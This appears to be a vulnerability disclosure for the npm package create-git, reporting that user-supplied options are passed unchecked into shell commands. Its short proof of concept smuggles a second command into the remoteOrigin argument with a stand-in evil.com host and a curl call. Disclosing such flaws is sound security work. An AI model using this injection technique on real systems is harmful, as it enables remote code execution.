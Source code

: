 # Description
The issue arises because some `user supplied` inputs are formatted inside commands executed lately without any check. Issue arises on this line: https://github.com/wesleytodd/create-git/blob/master/index.js#L85

# POC

```js
// poc.js
const createGit = require('create-git')
 
createGit({
    ignoreExisting: true,
    initialCommitMessage: 'test',
    remoteOrigin: 'http://evil.com || curl "http://localhost/RCE"',
    ignoreTemplates: ['Node.gitignore']
  })
```

# Impact
`RCE` via `insecure command formatting` on `create-git`
